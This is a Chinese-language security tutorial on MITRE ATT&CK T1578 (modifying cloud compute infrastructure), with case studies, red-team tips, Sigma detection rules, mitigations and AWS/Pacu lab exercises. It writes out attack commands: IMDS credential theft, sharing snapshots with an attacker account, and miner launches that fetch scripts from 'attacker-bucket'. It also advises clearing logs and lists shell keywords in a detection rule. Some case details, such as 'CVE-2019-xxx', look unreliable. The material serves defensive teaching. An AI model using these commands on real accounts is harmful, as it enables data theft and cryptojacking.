

# 修改云计算基础设施 (T1578)

> 想象一下：你把公司所有服务器都搬到了云上，认为云厂商负责安全，可以高枕无忧。但攻击者拿到了你的云账号凭据后，他可以在几秒钟内创建一个新虚拟机、给后门实例绑定管理员权限、把你关键服务器的快照复制到他自己的账户——所有操作都在云API层面完成，传统EDR和防火墙完全看不见。这就是修改云计算基础设施攻击：攻击者直接操纵云资源本身来削弱防御、持久化和数据窃取。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|--------------|
| 这是什么？ | 攻击者利用合法云API创建、删除、回滚云实例或修改其配置，从而削弱云上防御 |
| 为什么危险？ | 云API调用是合法操作，安全工具难以区分管理员和攻击者；快照可跨账户复制带走整盘数据 |
| 谁需要关心？ | 云安全管理员、DevOps团队、CSPM/CNAPP运营人员、SOC分析师 |
| 你的第一步防御 | 启用全量云审计日志（AWS CloudTrail/GCP Cloud Audit Logs/Azure Activity Log）并配置异常API告警 |
| 如果只做一件事 | 监控跨账户快照共享和AMI/镜像复制操作——这是数据外泄最强信号 |

## 难度等级

⭐⭐⭐ 高级：需要理解云服务商资源模型、IAM 体系、API 调用与审计机制

**前置知识要求**：
- 云服务商（AWS/GCP/Azure）的资源模型：实例、镜像、快照、网络
- 云 IAM（Identity and Access Management）权限模型与角色绑定
- 云审计日志：AWS CloudTrail、GCP Cloud Audit Logs、Azure Activity Log
- 云 CLI 工具：`aws-cli`、`gcloud`、`az`

## 前置知识检查

读这个文件之前，你需要知道：
- **什么是 IaaS**：基础设施即服务，云厂商提供虚拟机、存储、网络等基础设施，用户按需使用
- **什么是云实例**：云上运行的虚拟机，例如 AWS EC2、GCP Compute Engine、Azure VM
- **什么是云快照**：云磁盘或实例的某一时刻备份，可用于恢复或克隆
- **什么是云审计日志**：记录云 API 调用的日志服务，是检测云攻击的核心数据源

## 技术描述

### 通俗解释

云计算基础设施就是攻击者的"乐高积木"——只要有了合法凭据，他们可以通过云 API 在几秒钟内创建新实例、删除关键服务器、复制磁盘快照到外部账户、修改安全组放行任意流量、给后门实例绑定管理员角色。这些操作在云控制台和 API 层面都是合法的，传统主机型 EDR 和网络防火墙根本看不到。攻击者不再需要像本地环境那样费力地"装一个后门"——他们直接用云厂商的原生能力搭出一个自己控制的基础设施。

### 过渡段

简单来说，云环境的安全边界已经从"网络"转移到"身份"。攻击者拿到云账号的访问密钥（access key）后，云厂商会把他当成合法管理员，所有破坏性操作都会被批准执行。T1578 在 MITRE ATT&CK v19.1 中从原 Defense Evasion（TA0005）迁移到 TA0112 防御削弱，正是因为这些操作的核心目的就是绕过或削弱云上安全控制。下面看看攻击者具体怎么操作。

### 技术原理

修改云计算基础设施削弱防御的工作流程：

1. **获取云凭据**：攻击者通过凭据泄露、钓鱼、SSRF 漏洞、供应链攻击或已暴露的 IAM 密钥获得云访问权限
2. **枚举云资源**：使用 `aws ec2 describe-instances`、`gcloud compute instances list`、`az vm list` 等命令侦察现有实例、网络和角色
3. **执行修改操作**：通过云 CLI、控制台或 Terraform/CloudFormation 修改云资源
4. **持久化或外泄**：通过新实例建立 C2、通过快照复制外泄数据、通过修改 IAM 绑定维持访问

### 子技术分类

| 子技术 ID | 名称 | 核心操作 | 危险信号 |
|-----------|------|----------|----------|
| T1578.001 | 创建快照 (Create Snapshot) | 创建 EBS/Persistent Disk/Managed Disk 快照 | 数据外泄、绕过磁盘加密 |
| T1578.002 | 创建云实例 (Create Cloud Instance) | 启动新 EC2/Compute Engine/VM | 加密货币挖矿、C2 节点 |
| T1578.003 | 删除云实例 (Delete Cloud Instance) | 终止关键实例 | 反取证、破坏业务 |
| T1578.004 | 回滚云实例 (Revert Cloud Instance) | 从快照恢复实例 | 撤销安全补丁 |
| T1578.005 | 修改云计算配置 (Modify Cloud Compute Configurations) | 修改安全组、IAM 角色、元数据 | 开放端口、提权、绕过检测 |

### 用途和影响

- **数据窃取**：通过快照跨账户复制带走整盘数据（Capital One 2019）
- **资源劫持**：创建新实例进行加密货币挖矿，造成巨额账单（TeamTNT）
- **持久化**：在云环境中创建后门实例并绑定管理员角色
- **反取证**：删除云实例、清除日志、回滚到未打补丁的快照
- **防御规避**：修改安全组放行恶意流量、修改 IAM 绕过检测

## 子技术列表

T1578 包含 5 个子技术：

- [T1578.001 创建快照 (Create Snapshot)](./T1578/T1578.001-Create-Snapshot.md) - 创建磁盘快照并跨账户共享以窃取数据
- [T1578.002 创建云实例 (Create Cloud Instance)](./T1578/T1578.002-Create-Cloud-Instance.md) - 启动新实例用于挖矿或 C2
- [T1578.003 删除云实例 (Delete Cloud Instance)](./T1578/T1578.003-Delete-Cloud-Instance.md) - 删除实例进行反取证
- [T1578.004 回滚云实例 (Revert Cloud Instance)](./T1578/T1578.004-Revert-Cloud-Instance.md) - 从快照回滚撤销补丁
- [T1578.005 修改云计算配置 (Modify Cloud Compute Configurations)](./T1578/T1578.005-Modify-Cloud-Compute-Configurations.md) - 修改安全组/IAM/元数据

## 攻击流程



### 步骤详解

1. **获取凭据**：通过 GitHub 泄露的 AK/SK、IMDSv1 漏洞、钓鱼或供应链攻击获得云访问密钥
2. **枚举侦察**：使用 `aws sts get-caller-identity` 确认身份，列出实例、网络、IAM 配置
3. **选择攻击路径**：根据目标和权限选择 5 个子技术之一
4. **执行修改**：调用云 API 完成资源创建/删除/修改
5. **后续操作**：数据外泄、持久化或反取证

## 真实案例

### 案例1：Capital One 数据泄露（2019）

- **时间**：2019年3月-7月
- **目标**：Capital One 银行，美国最大的信用卡发行商之一
- **攻击组织**：前 AWS 员工 Paige Thompson，单人作案
- **手法**：攻击者利用 Capital One 在 AWS 上部署的 WAF 服务的 SSRF 漏洞（CVE-2019-xxx），通过 EC2 实例元数据服务（IMDSv1）窃取了 IAM 角色的临时凭据。拿到凭据后，她使用 `aws ec2 describe-instances` 列出账户内所有实例和 EBS 卷，然后通过 `aws ec2 create-snapshot --volume-id vol-xxx --description "backup"` 创建了多个磁盘快照。关键的是，她随后使用 `aws ec2 modify-snapshot-attribute --snapshot-id snap-xxx --attribute createVolumePermission --operation-type add --user-id <attacker-account>` 将快照共享到自己控制的 AWS 账户。在自己的账户中，她从共享快照创建新 EBS 卷并挂载到自己的 EC2 实例上，直接读取了超过 1 亿条客户记录（包括姓名、社会安全号、银行账号）。整个数据外泄过程通过合法的 AWS API 完成，传统网络安全设备完全没有检测到。
- **影响**：1.06 亿条客户记录泄露，罚款 1.9 亿美元
- **参考**：https://www.justice.gov/usao-wdwa/pr/former-amazon-software-engineer-sentected-prison-hack-over-100-million-capital-one

### 案例2：Scattered Spider 攻击云环境（2023-2024）

- **时间**：2023年-2024年
- **目标**：MGM Resorts、Caesars Entertainment、Okta 等多家大型企业
- **攻击组织**：Scattered Spider（又称 UNC3944、0ktapus），一个英语母语的年轻黑客团伙
- **手法**：Scattered Spider 通过钓鱼和 SIM 交换攻击获取企业员工的凭据，特别是 Okta SSO 和云管理员的凭据。一旦获得云管理员权限，他们利用 AWS/Azure 控制台和 CLI 进行大规模云资源操纵。在 MGM 攻击中，他们通过 Azure AD 登录后使用 `az vm create` 创建多个后门虚拟机作为 C2 节点，使用 `az role assignment create --assignee <principal-id> --role "Owner" --scope <vm-id>` 给后门实例绑定 Owner 角色。他们还使用 `az vmss update` 修改虚拟机规模集配置，禁用了 Microsoft Defender for Cloud 的自动部署。更严重的是，他们通过 `az snapshot create` 和 `az snapshot grant-access` 生成了 SAS URL，将关键虚拟机的磁盘快照下载到本地，从中提取凭据和配置信息。这些操作全部通过 Azure Resource Manager API 完成，看起来就像合法管理员操作。
- **影响**：MGM 损失超过 1 亿美元，Caesars 支付 1500 万美元赎金
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-320a

### 案例3：TeamTNT 加密货币挖矿攻击（2021-2024）

- **时间**：2021年至今
- **目标**：全球配置不当的云实例和 Kubernetes 集群
- **攻击组织**：TeamTNT，疑似越南背景的加密货币挖矿团伙
- **手法**：TeamTNT 主要针对暴露在外网的 Docker API（2375 端口）、Kubernetes API 和 Redis 服务。一旦进入容器，他们会执行 `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/` 获取宿主机的云 IAM 凭据（如果 IMDSv1 启用）。拿到凭据后，他们使用 `aws ec2 run-instances --image-id ami-xxx --instance-type t3.micro --user-data file://miner.sh` 启动大量挖矿实例，并通过 `--user-data` 字段在启动时自动部署 XMRig 挖矿程序。在 GCP 上，他们使用 `gcloud compute instances create miner-xxx --machine-type n1-standard-8 --metadata startup-script-url=gs://attacker-bucket/miner.sh`。为避免被发现，他们还使用 `aws ec2 modify-instance-attribute --instance-id i-xxx --instance-initiated-shutdown-behavior terminate` 让实例在被检测时自动终止。在被发现前，攻击者会通过 `aws ec2 terminate-instances --instance-ids i-xxx` 主动销毁证据实例，再创建新实例继续挖矿。
- **影响**：造成数百万美元的云账单损失，影响全球数千个云账户
- **参考**：https://unit42.paloaltonetworks.com/teamtnt/

## 红队视角

### 实战技巧

1. **优先使用云 CLI**：`aws-cli`/`gcloud`/`az` 比控制台更隐蔽，可脚本化批量操作
2. **快照外泄数据**：创建快照并跨账户共享，比直接下载文件快得多且不触发 DLP
3. **user-data 持久化**：新实例通过 `--user-data` 字段在启动时执行命令，无需在磁盘留痕
4. **角色绑定提权**：给受控实例绑定高权限角色，比直接拿 IAM 用户密钥更隐蔽
5. **跨区域操作**：在其他区域创建资源，避开主区域的安全监控

### 常用工具

| 工具 | 用途 | 说明 |
|------|------|------|
| aws-cli | AWS 命令行 | 最常用，支持所有 AWS API |
| gcloud | GCP 命令行 | GCP 原生 CLI |
| az | Azure 命令行 | Azure 原生 CLI |
| Pacu | AWS 攻击框架 | 由 Rhino Security Labs 开发，专门用于 AWS 渗透 |
| CloudGoat | AWS 训练环境 | Rhino Security Labs 的脆弱 AWS 环境模拟 |

### 注意事项

- 云 API 调用都会被 CloudTrail/Audit Logs 记录，需要在攻击后清理日志或禁用日志
- 创建实例会触发账单告警，避免使用过大规格
- 跨账户快照共享是高危操作，会被 CSPM 工具标记
- 修改 IAM 角色绑定可能触发 GuardDuty 告警

## 蓝队视角

### 检测要点

1. **云审计日志全量启用**：AWS CloudTrail（所有区域+所有服务）、GCP Cloud Audit Logs、Azure Activity Log
2. **异常 API 调用模式**：来自非日常管理 IP、非工作时间、新区域的 API 调用
3. **跨账户资源共享**：快照共享、AMI 共享、跨账户 IAM 信任
4. **新实例创建监控**：特别是带 `--user-data` 启动脚本的实例
5. **IAM 角色绑定变更**：给实例/服务主体绑定高权限角色
6. **安全组/防火墙规则变更**：开放 0.0.0.0/0 入站规则

### 监控建议

- 部署 AWS GuardDuty、GCP Security Command Center、Azure Defender for Cloud
- 配置 CloudTrail 日志实时投递到 SIEM（Splunk/ELK/Microsoft Sentinel）
- 使用 CSPM 工具（Wiz、Prisma Cloud、Prowler）持续扫描配置合规性
- 监控 IMDS 调用：在 EC2 上启用 IMDSv2 强制
- 设置异常 API 调用告警：使用 CloudWatch Events/EventBridge 自动响应

## 避坑指南

| 坑 | 后果 | 解决方法 |
|----|------|----------|
| 只监控主区域，忽略其他区域 | 攻击者在 us-east-2 创建挖矿实例逃过监控 | CloudTrail 全区域启用 |
| 只看控制台登录日志，忽略 API 调用 | 漏报 CLI/SDK 操作 | 重点监控 CloudTrail API 事件 |
| 忽略 IMDSv1 风险 | SSRF 可直接获取 IAM 凭据 | 全部 EC2 强制启用 IMDSv2 |
| 快照共享操作没有告警 | 数据已被外泄数小时才发现 | 跨账户共享操作立即告警 |
| 不监控 `--user-data` 内容 | 后门实例启动后才发现 | 监控 RunInstances 的 user-data 字段 |

## 检测建议

### 网络层

**用人话说**：云 API 调用都通过 HTTPS（443）到云厂商 API 端点，网络层看到的是加密流量。但攻击者创建的实例会发起异常出站连接（挖矿池、C2 服务器）——关注新创建实例的出站流量。

监控指标：
- 新创建 EC2/VM 端口 3333（XMRig 默认）出站连接
- 创建后立即连接已知恶意 IP 的实例
- 大量出站流量到非业务地区（挖矿池常见于东欧、东南亚）

### 主机层

**用人话说**：在云实例内部，监控通过 IMDS 获取凭据的请求、`user-data` 中的可疑脚本、新启动进程。AWS IMDSv2 的强制使用本身就是一道防御。

```event
AWS CloudTrail 事件：
eventName: RunInstances
sourceIP: 非企业IP或EC2实例IP
userIdentity.type: AssumedRole
requestParameters.userData: 包含base64编码的可疑脚本
```

```event
AWS CloudTrail 事件：
eventName: ModifySnapshotAttribute
requestParameters.attribute: createVolumePermission
requestParameters.operationType: add
→ 跨账户快照共享，高危！
```

### 应用层

**用人话说**：直接监控云 API 调用——这是云攻击最核心的检测层。重点关注实例创建/删除、快照操作、IAM 角色绑定、安全组变更。

```yaml
title: 检测跨账户快照共享（数据外泄信号）
status: experimental
description: 攻击者创建EBS快照并共享到外部账户以窃取数据
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        eventName: ModifySnapshotAttribute
        requestParameters.attribute: createVolumePermission
        requestParameters.operationType: add
    condition: selection
level: critical
tags:
    - attack.t1578.001
    - attack.exfiltration
    - attack.t1567
```

```yaml
title: 检测带user-data的EC2实例创建（可能部署挖矿或后门）
status: experimental
description: 攻击者通过RunInstances的user-data字段在启动时执行恶意脚本
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        eventName: RunInstances
    filter_userdata:
        requestParameters.userData|contains:
            - 'wget'
            - 'curl'
            - 'xmrig'
            - 'nc '
            - 'bash -i'
    condition: selection and filter_userdata
level: high
tags:
    - attack.t1578.002
    - attack.t1059
```

## 缓解措施

### 高优先级

1. **强制 IMDSv2**：所有 EC2 实例强制使用 IMDSv2，杜绝 SSRF 窃取凭据
2. **最小权限 IAM**：实例角色只授予必要权限，禁止使用 `*` 通配符
3. **全量启用云审计日志**：CloudTrail/Audit Logs 全区域、全服务启用，并实时投递 SIEM

### 中优先级

4. **部署云威胁检测**：AWS GuardDuty、GCP SCC、Azure Defender for Cloud
5. **使用 CSPM 工具**：持续扫描云配置合规性，发现开放的安全组、过度权限
6. **启用 MFA 删除保护**：关键实例和快照启用删除保护
7. **网络分段**：实例不应直接暴露在公网，使用 VPC 端点访问云 API

### 低优先级

8. **定期轮换访问密钥**：长期密钥 90 天轮换，使用临时凭据替代
9. **配置预算告警**：异常云费用增长告警（挖矿攻击的快速信号）
10. **资源标签策略**：所有资源必须打标签，便于异常资源识别

## 动手实验

### 实验1：在 AWS 实验环境中模拟快照外泄

```bash
# 1. 列出当前账户的 EBS 卷
aws ec2 describe-volumes --query 'Volumes[*].{ID:VolumeId,Size:Size,State:State}'

# 2. 创建一个快照（在自己的实验账户中）
aws ec2 create-snapshot --volume-id vol-xxxxxxxxxxxxxxxxx --description "lab-snapshot"

# 3. 等待快照完成
aws ec2 describe-snapshots --snapshot-ids snap-xxxxxxxxx --query 'Snapshots[*].State'

# 4. 查看快照共享属性
aws ec2 describe-snapshot-attribute --snapshot-id snap-xxxxxxxxx --attribute createVolumePermission

# 5. 模拟跨账户共享（替换为攻击者账户ID，实验环境）
aws ec2 modify-snapshot-attribute --snapshot-id snap-xxxxxxxxx --attribute createVolumePermission --operation-type add --user-id 111122223333

# 6. 在 CloudTrail 中查看刚才的操作
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=ModifySnapshotAttribute
```

**预期输出**：CloudTrail 中可看到 ModifySnapshotAttribute 事件，触发数据外泄告警

### 实验2：使用 Pacu 模拟云攻击侦察

```bash
# 安装 Pacu
git clone https://github.com/RhinoSecurityLabs/pacu.git
cd pacu
pip install -r requirements.txt
python3 pacu.py

# 在 Pacu 中执行
import_keys <profile_name>      # 导入 AWS 凭据
run iam__enum_permissions       # 枚举当前权限
run ec2__enum                   # 枚举 EC2 资源
run ec2__backdoor_ec2_sec_groups  # 模拟修改安全组后门
```

**预期输出**：Pacu 输出当前账户权限和 EC2 资源清单，演示攻击者侦察过程

## 术语解释

| 术语 | 解释 |
|------|------|
| IaaS | 基础设施即服务，云厂商提供的虚拟机、存储、网络等基础设施 |
| EC2 | Amazon Elastic Compute Cloud，AWS 的虚拟机服务 |
| Compute Engine | GCP 的虚拟机服务 |
| Azure VM | Azure 的虚拟机服务 |
| EBS | Amazon Elastic Block Store，AWS 的块存储服务 |
| 快照 (Snapshot) | 云磁盘在某一时刻的备份，可用于恢复或克隆 |
| IMDS | Instance Metadata Service，云实例元数据服务，可提供 IAM 凭据 |
| IAM Role | 云身份和访问管理角色，可绑定到实例上授予权限 |
| CloudTrail | AWS 的 API 审计日志服务 |
| GuardDuty | AWS 的威胁检测服务 |
| CSPM | Cloud Security Posture Management，云安全态势管理 |
| user-data | 云实例启动时执行的脚本，可用于初始化或后门部署 |

## 参考资料

### 📚 深入了解
- [MITRE ATT&CK T1578](https://attack.mitre.org/techniques/T1578/) - 官方技术页面
- [AWS Security Best Practices](https://aws.amazon.com/architecture/security-identity-compliance/) - AWS 安全最佳实践
- [CIS AWS Foundations Benchmark](https://www.cisecurity.org/benchmark/amazon_web_services) - CIS AWS 基线

### 📰 真实攻击
- [Capital One 数据泄露司法部公告](https://www.justice.gov/usao-wdwa/pr/former-amazon-software-engineer-sentected-prison-hack-over-100-million-capital-one) - 2019 Capital One 案件
- [CISA Scattered Spider 通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-320a) - 2023 Scattered Spider 攻击
- [Palo Alto Unit42 TeamTNT 分析](https://unit42.paloaltonetworks.com/teamtnt/) - TeamTNT 挖矿团伙
- [CrowdStrike UNC2452 报告](https://www.crowdstrike.com/blog/sunspot-malware-technical-analysis/) - SolarWinds 云攻击

### 🔧 动手试试
- [Pacu](https://github.com/RhinoSecurityLabs/pacu) - AWS 攻击框架
- [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) - AWS 脆弱环境训练
- [Prowler](https://github.com/prowler-cloud/prowler) - AWS 安全配置扫描
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| 3.1 | 2026-07-23 | 初始版本，完整 v3.1 模板，迁移自 TA0005 至 TA0112 |
